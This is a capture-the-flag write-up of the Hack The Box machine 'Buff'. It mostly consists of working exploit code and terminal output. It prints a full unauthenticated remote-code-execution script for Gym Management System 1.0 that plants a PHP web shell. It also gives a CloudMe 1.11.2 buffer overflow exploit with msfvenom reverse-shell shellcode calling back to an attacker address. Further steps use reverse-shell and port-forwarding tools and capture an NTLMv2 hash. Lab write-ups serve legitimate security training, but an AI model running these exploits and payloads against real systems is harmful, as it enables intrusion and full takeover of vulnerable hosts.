


---
search:
  exclude: true
---
# Buff Writeup

## Introduction :

Buff is an easy Windows box released back in July 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Buff]
    → nmap -vvv -p- 10.10.10.198 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered                              
    Discovered open port 8080/tcp on 10.10.10.198
    Discovered open port 7680/tcp on 10.10.10.198
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Buff]
    → nmap -sCV -p8080,7680 10.10.10.198 -Pn
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-02 11:19 CEST
    Nmap scan report for 10.10.10.198
    Host is up (0.14s latency).
    
    PORT     STATE SERVICE    VERSION
    7680/tcp open  pando-pub?
    8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
    |_http-title: mrb3n's Bro Hut
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 66.01 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 8080 running apache from Windows, so let's check it out: 

And upon clicking the contact page, we see that we have a Gym Management Software v1.0 instance, so let's see if there are any exploits for us to use:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Buff]
    → searchsploit gym management
    --------------------------------------------------------- ---------------------------------
     Exploit Title                                           |  Path
    --------------------------------------------------------- ---------------------------------
    Gym Management System 1.0 - 'id' SQL Injection           | php/webapps/48936.txt
    Gym Management System 1.0 - Authentication Bypass        | php/webapps/48940.txt
    Gym Management System 1.0 - Stored Cross Site Scripting  | php/webapps/48941.txt
    Gym Management System 1.0 - Unauthenticated Remote Code  | php/webapps/48506.py
    --------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    
    

Let's use the Unauthenticated RCE python exploit:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Buff]
    → cp $(locate 48506.py ) .
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Buff]
    → cat 48506.py
    
    import requests, sys, urllib, re
    from colorama import Fore, Back, Style
    requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
    
    def webshell(SERVER_URL, session):
        try:
            WEB_SHELL = SERVER_URL+'upload/kamehameha.php'
            getdir  = {'telepathy': 'echo %CD%'}
            r2 = session.get(WEB_SHELL, params=getdir, verify=False)
            status = r2.status_code
            if status != 200:
                print Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL
                r2.raise_for_status()
            print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
            cwd = re.findall('[CDEF].*', r2.text)
            cwd = cwd[0]+"> "
            term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
            while True:
                thought = raw_input(term)
                command = {'telepathy': thought}
                r2 = requests.get(WEB_SHELL, params=command, verify=False)
                status = r2.status_code
                if status != 200:
                    r2.raise_for_status()
                response2 = r2.text
                print(response2)
        except:
            print("\r\nExiting.")
            sys.exit(-1)
    
    def formatHelp(STRING):
        return Style.BRIGHT+Fore.RED+STRING+Fore.RESET
    
    def header():
        BL   = Style.BRIGHT+Fore.GREEN
        RS   = Style.RESET_ALL
        FR   = Fore.RESET
        SIG  = BL+'            /\\\n'+RS
        SIG += Fore.YELLOW+'/vvvvvvvvvvvv '+BL+'\\'+FR+'--------------------------------------,\n'
        SIG += Fore.YELLOW+'`^^^^^^^^^^^^'+BL+' /'+FR+'============'+Fore.RED+'BOKU'+FR+'====================="\n'
        SIG += BL+'            \/'+RS+'\n'
        return SIG
    
    if __name__ == "__main__":
        print header();
        if len(sys.argv) != 2:
            print formatHelp("(+) Usage:\t python %s " % sys.argv[0])
            print formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
            sys.exit(-1)
        SERVER_URL = sys.argv[1]
        UPLOAD_DIR = 'upload.php?id=kamehameha'
        UPLOAD_URL = SERVER_URL + UPLOAD_DIR
        s = requests.Session()
        s.get(SERVER_URL, verify=False)
        PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
        png     = {
                    'file':
                      (
                        'kaio-ken.php.png',
                        PNG_magicBytes+'\n'+'<****?php echo shell_exec($_GET["telepathy"]); ?>',
                        'image/png',
                        {'Content-Disposition': 'form-data'}
                      )
                  }
        fdata   = {'pupload': 'upload'}
        r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
        webshell(SERVER_URL, s)%

Preety trivial to use, we simply need to give it the URL of the website as an arguement:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Buff]
    → python 48506.py http://10.10.10.198:8080/
                /\
    /vvvvvvvvvvvv \--------------------------------------,
    `^^^^^^^^^^^^ /============BOKU=====================
                \/
    
    [+] Successfully connected to webshell.
    C:\xampp\htdocs\gym\upload> whoami
    �PNG
    
    buff\shaun
    
    C:\xampp\htdocs\gym\upload> type C:\users\shaun\desktop\user.txt
    �PNG
    
    b0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we got the user flag!

## **Part 3 : Getting Root Access**
    
    
    C:\xampp\htdocs\gym\upload> netstat -ano | findstr LISTENING
    �PNG
    
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       956
      TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5780
      TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       8608
      TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4080
      TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       520
      TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1060
      TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1532
      TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2232
      TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       664
      TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       684
      TCP    10.10.10.198:139       0.0.0.0:0              LISTENING       4
      TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       5496
      TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       5364
      TCP    [::]:135               [::]:0                 LISTENING       956
      TCP    [::]:445               [::]:0                 LISTENING       4
      TCP    [::]:7680              [::]:0                 LISTENING       8608
      TCP    [::]:8080              [::]:0                 LISTENING       4080
      TCP    [::]:49664             [::]:0                 LISTENING       520
      TCP    [::]:49665             [::]:0                 LISTENING       1060
      TCP    [::]:49666             [::]:0                 LISTENING       1532
      TCP    [::]:49667             [::]:0                 LISTENING       2232
      TCP    [::]:49668             [::]:0                 LISTENING       664
      TCP    [::]:49669             [::]:0                 LISTENING       684
    
    

Here we see that there's a MySQL instance running on port 3306 and something else on port 8888. This was a hint to a CloudMe Sync service [exploit](https://www.exploit-db.com/exploits/44470):

Basically the CloudMe Sync software isn't compiled with any protections enabled like ASLR / DEP and is thus vulnerable to buffer overflow attacks, Although we need to access the port and for now it's still only accessible from the host machine's localhost, So we can make use of a tool named [xc](../Tools/xc/index.md) to port forward the vulnerable port 8888 we need:

Now in order to privesc the box we need to look at the opened ports:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Buff]
    → cp /home/nothing/Tools/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASbat/winPEAS.bat .
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Buff]
    → sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support .
    [sudo] password for nothing:
    Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation
    
    usage: smbserver.py [-h] [-comment COMMENT] [-username USERNAME] [-password PASSWORD] [-hashes LMHASH:NTHASH] [-ts] [-debug] [-ip INTERFACE_ADDRESS] [-port PORT] [-smb2support] shareName sharePath
    smbserver.py: error: the following arguments are required: sharePath
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Buff]
    → sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support test .
    Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    
    **[*] Incoming connection (10.10.10.198,49758)**
    [*] AUTHENTICATE_MESSAGE (BUFF\shaun,BUFF)
    [*] User BUFF\shaun authenticated successfully
    [*] shaun::BUFF:aaaaaaaaaaaaaaaa:5d8852bb8433b59137009bf40b34891a:0101000000000000007dcc199e57d701d4e99eb4a5f42e7700000000010010005a00530056006d005a00760055006d00030010005a00530056006d005a00760055006d00020010007400660062005a004100750042006100040010007400660062005a00410075004200610007000800007dcc199e57d701060004000200000008003000300000000000000000000000002000009b16b72cf619545bf4c9fc0e0e2180a61bf08182e18b155b2f091defe359fc140a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310033000000000000000000
    [*] Connecting Share(1:IPC$)
    [*] Connecting Share(2:test)
    
    C:\xampp\htdocs\gym\upload> copy \\10.10.14.13\test\xc.exe xc.exe
    �PNG
    
            1 file(s) copied.
    

Now let's get a reverse xc shell connection:
    
    
    C:\xampp\htdocs\gym\upload> xc.exe 10.10.14.13 9005
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/75 ] [~/HTB/Buff]
    → ./xc -l -p 9005
    
                    __  _____
                    \ \/ / __|
                    >  <****(__
                    /_/\_\___| by @xct_de
                               build: QUnVVFdLYEkibcKx
    
    2021/06/02 15:16:06 Listening on :9005
    2021/06/02 15:16:06 Waiting for connections...
    2021/06/02 15:18:28 Connection from 10.10.10.198:49764
    2021/06/02 15:18:28 Stream established
    
    [*] Auto-Plugins:
    [xc: C:\xampp\htdocs\gym\upload]: !lfwd
    Usage: !lfwd <****localport>****remoteaddr> <****remoteport> (opens local port)
    
    [xc: C:\xampp\htdocs\gym\upload]: !lfwd 8888 127.0.0.1 8888
    [xc: C:\xampp\htdocs\gym\upload]: !lfwd 3306 127.0.0.1 3306
    
    [xc: C:\xampp\htdocs\gym\upload]: !lsfwd
    Active Port Forwarding:
    [0] Listening on 10.10.14.13:8888, Traffic redirect to 10.10.10.198 (127.0.0.1:8888)
    [1] Listening on 10.10.14.13:3306, Traffic redirect to 10.10.10.198 (127.0.0.1:3306)

Here we port forward the port 8888 and 3306 to be accessible from our machine so let's try to login onto mysql:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/76 ] [~/HTB/Buff]
    → ss -lnpt
    State        Recv-Q       Send-Q                   Local Address:Port               Peer Address:Port       Process
    LISTEN       0            128                            0.0.0.0:22                      0.0.0.0:*
    LISTEN       0            5                            127.0.0.1:6600                    0.0.0.0:*           users:(("mpd",pid=163090,fd=10))
    LISTEN       0            128                               [::]:22                         [::]:*
    LISTEN       0            4096                                 *:8888                          *:*           users:(("xc",pid=4058130,fd=8))
    LISTEN       0            50                  [::ffff:127.0.0.1]:4701                          *:*           users:(("java",pid=52048,fd=25))
    LISTEN       0            4096                                 *:3306                          *:*           users:(("xc",pid=4058130,fd=9))
    LISTEN       0            4096                                 *:9005                          *:*           users:(("xc",pid=4058130,fd=3))
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/76 ] [~/HTB/Buff]
    → nmap -sCV -p 8888,3306 127.0.0.1
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-02 16:25 CEST
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000059s latency).
    
    PORT     STATE SERVICE    VERSION
    3306/tcp open  tcpwrapped
    | mysql-info:
    |   Protocol: 10
    |   Version: 5.5.5-10.4.11-MariaDB
    |   Thread ID: 58
    |   Capabilities flags: 63486
    |   Some Capabilities: Support41Auth, DontAllowDatabaseTableColumn, FoundRows, InteractiveClient, ConnectWithDatabase, Speaks41ProtocolNew, Speaks41ProtocolOld, SupportsTransactions, ODBCClient, LongColumnFlag, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, SupportsCompression, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
    |   Status: Autocommit
    |   Salt: sq^cT[LKs$RT01C?ScuF
    |_  Auth Plugin Name: mysql_native_password
    |_ssl-date: ERROR: Script execution failed (use -d to debug)
    |_tls-alpn: ERROR: Script execution failed (use -d to debug)
    8888/tcp open  mysql      MySQL 5.5.5-10.4.11-MariaDB
    |_mysql-info: ERROR: Script execution failed (use -d to debug)
    |_ssl-date: ERROR: Script execution failed (use -d to debug)
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 21.24 seconds
    
    [ 10.10.14.13/23 ] [ /dev/pts/81 ] [~]
    → mysql -u root -p -h 127.0.0.1
    Enter password:
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 54
    Server version: 10.4.11-MariaDB mariadb.org binary distribution
    
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MariaDB [(none)]>
    
    

And here we see that we have been able to get onto mysql as the root user without any password!

Now that's done, we can generate the payload we want to put into our modified [exploit](https://www.exploit-db.com/exploits/48389) using msfvenom, going from the previous payload **msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python** to the following:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/78 ] [~/HTB/Buff]
    → **msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload**
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of python file: 1869 bytes
    payload =  b""
    payload += b"\xba\xcc\x93\xd2\xd9\xdb\xc8\xd9\x74\x24\xf4\x58"
    payload += b"\x2b\xc9\xb1\x52\x31\x50\x12\x03\x50\x12\x83\x0c"
    payload += b"\x97\x30\x2c\x70\x70\x36\xcf\x88\x81\x57\x59\x6d"
    payload += b"\xb0\x57\x3d\xe6\xe3\x67\x35\xaa\x0f\x03\x1b\x5e"
    payload += b"\x9b\x61\xb4\x51\x2c\xcf\xe2\x5c\xad\x7c\xd6\xff"
    payload += b"\x2d\x7f\x0b\xdf\x0c\xb0\x5e\x1e\x48\xad\x93\x72"
    payload += b"\x01\xb9\x06\x62\x26\xf7\x9a\x09\x74\x19\x9b\xee"
    payload += b"\xcd\x18\x8a\xa1\x46\x43\x0c\x40\x8a\xff\x05\x5a"
    payload += b"\xcf\x3a\xdf\xd1\x3b\xb0\xde\x33\x72\x39\x4c\x7a"
    payload += b"\xba\xc8\x8c\xbb\x7d\x33\xfb\xb5\x7d\xce\xfc\x02"
    payload += b"\xff\x14\x88\x90\xa7\xdf\x2a\x7c\x59\x33\xac\xf7"
    payload += b"\x55\xf8\xba\x5f\x7a\xff\x6f\xd4\x86\x74\x8e\x3a"
    payload += b"\x0f\xce\xb5\x9e\x4b\x94\xd4\x87\x31\x7b\xe8\xd7"
    payload += b"\x99\x24\x4c\x9c\x34\x30\xfd\xff\x50\xf5\xcc\xff"
    payload += b"\xa0\x91\x47\x8c\x92\x3e\xfc\x1a\x9f\xb7\xda\xdd"
    payload += b"\xe0\xed\x9b\x71\x1f\x0e\xdc\x58\xe4\x5a\x8c\xf2"
    payload += b"\xcd\xe2\x47\x02\xf1\x36\xc7\x52\x5d\xe9\xa8\x02"
    payload += b"\x1d\x59\x41\x48\x92\x86\x71\x73\x78\xaf\x18\x8e"
    payload += b"\xeb\xda\xd6\x9e\xe6\xb2\xe4\x9e\xf9\xf9\x60\x78"
    payload += b"\x93\xed\x24\xd3\x0c\x97\x6c\xaf\xad\x58\xbb\xca"
    payload += b"\xee\xd3\x48\x2b\xa0\x13\x24\x3f\x55\xd4\x73\x1d"
    payload += b"\xf0\xeb\xa9\x09\x9e\x7e\x36\xc9\xe9\x62\xe1\x9e"
    payload += b"\xbe\x55\xf8\x4a\x53\xcf\x52\x68\xae\x89\x9d\x28"
    payload += b"\x75\x6a\x23\xb1\xf8\xd6\x07\xa1\xc4\xd7\x03\x95"
    payload += b"\x98\x81\xdd\x43\x5f\x78\xac\x3d\x09\xd7\x66\xa9"
    payload += b"\xcc\x1b\xb9\xaf\xd0\x71\x4f\x4f\x60\x2c\x16\x70"
    payload += b"\x4d\xb8\x9e\x09\xb3\x58\x60\xc0\x77\x68\x2b\x48"
    payload += b"\xd1\xe1\xf2\x19\x63\x6c\x05\xf4\xa0\x89\x86\xfc"
    payload += b"\x58\x6e\x96\x75\x5c\x2a\x10\x66\x2c\x23\xf5\x88"
    payload += b"\x83\x44\xdc"
    
    

Which gives us the following exploit:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/78 ] [~/HTB/Buff]
    → cat exploit.py
    # Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
    # Date: 2020-04-27
    # Exploit Author: Andy Bowden
    # Vendor Homepage: https://www.cloudme.com/en
    # Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
    # Version: CloudMe 1.11.2
    # Tested on: Windows 10 x86
    
    #Instructions:
    # Start the CloudMe service and run the script.
    
    import socket
    
    target = "127.0.0.1"
    
    padding1   = b"\x90" * 1052
    EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
    NOPS       = b"\x90" * 30
    
    #NOT msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
    #    msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
    payload =  b""
    payload += b"\xba\xcc\x93\xd2\xd9\xdb\xc8\xd9\x74\x24\xf4\x58"
    payload += b"\x2b\xc9\xb1\x52\x31\x50\x12\x03\x50\x12\x83\x0c"
    payload += b"\x97\x30\x2c\x70\x70\x36\xcf\x88\x81\x57\x59\x6d"
    payload += b"\xb0\x57\x3d\xe6\xe3\x67\x35\xaa\x0f\x03\x1b\x5e"
    payload += b"\x9b\x61\xb4\x51\x2c\xcf\xe2\x5c\xad\x7c\xd6\xff"
    payload += b"\x2d\x7f\x0b\xdf\x0c\xb0\x5e\x1e\x48\xad\x93\x72"
    payload += b"\x01\xb9\x06\x62\x26\xf7\x9a\x09\x74\x19\x9b\xee"
    payload += b"\xcd\x18\x8a\xa1\x46\x43\x0c\x40\x8a\xff\x05\x5a"
    payload += b"\xcf\x3a\xdf\xd1\x3b\xb0\xde\x33\x72\x39\x4c\x7a"
    payload += b"\xba\xc8\x8c\xbb\x7d\x33\xfb\xb5\x7d\xce\xfc\x02"
    payload += b"\xff\x14\x88\x90\xa7\xdf\x2a\x7c\x59\x33\xac\xf7"
    payload += b"\x55\xf8\xba\x5f\x7a\xff\x6f\xd4\x86\x74\x8e\x3a"
    payload += b"\x0f\xce\xb5\x9e\x4b\x94\xd4\x87\x31\x7b\xe8\xd7"
    payload += b"\x99\x24\x4c\x9c\x34\x30\xfd\xff\x50\xf5\xcc\xff"
    payload += b"\xa0\x91\x47\x8c\x92\x3e\xfc\x1a\x9f\xb7\xda\xdd"
    payload += b"\xe0\xed\x9b\x71\x1f\x0e\xdc\x58\xe4\x5a\x8c\xf2"
    payload += b"\xcd\xe2\x47\x02\xf1\x36\xc7\x52\x5d\xe9\xa8\x02"
    payload += b"\x1d\x59\x41\x48\x92\x86\x71\x73\x78\xaf\x18\x8e"
    payload += b"\xeb\xda\xd6\x9e\xe6\xb2\xe4\x9e\xf9\xf9\x60\x78"
    payload += b"\x93\xed\x24\xd3\x0c\x97\x6c\xaf\xad\x58\xbb\xca"
    payload += b"\xee\xd3\x48\x2b\xa0\x13\x24\x3f\x55\xd4\x73\x1d"
    payload += b"\xf0\xeb\xa9\x09\x9e\x7e\x36\xc9\xe9\x62\xe1\x9e"
    payload += b"\xbe\x55\xf8\x4a\x53\xcf\x52\x68\xae\x89\x9d\x28"
    payload += b"\x75\x6a\x23\xb1\xf8\xd6\x07\xa1\xc4\xd7\x03\x95"
    payload += b"\x98\x81\xdd\x43\x5f\x78\xac\x3d\x09\xd7\x66\xa9"
    payload += b"\xcc\x1b\xb9\xaf\xd0\x71\x4f\x4f\x60\x2c\x16\x70"
    payload += b"\x4d\xb8\x9e\x09\xb3\x58\x60\xc0\x77\x68\x2b\x48"
    payload += b"\xd1\xe1\xf2\x19\x63\x6c\x05\xf4\xa0\x89\x86\xfc"
    payload += b"\x58\x6e\x96\x75\x5c\x2a\x10\x66\x2c\x23\xf5\x88"
    payload += b"\x83\x44\xdc"
    
    overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
    
    buff = padding1 + EIP + NOPS + payload + overrun
    
    try:
            s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target,8888))
            s.send(buff)
    except Exception as e:
            print(sys.exc_value)
    
    

So let's run it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/78 ] [~/HTB/Buff]
    → python3 exploit.py
    
    

And we catch the reverse shell connection:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/79 ] [~/HTB/Buff]
    → nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.198] 50000
    Microsoft Windows [Version 10.0.17134.1610]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    whoami
    buff\administrator
    
    C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
    type C:\Users\Administrator\Desktop\root.txt
    4bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get a reverse shell as root and get the root flag.

## **Conclusion**

Here we can see the progress graph :

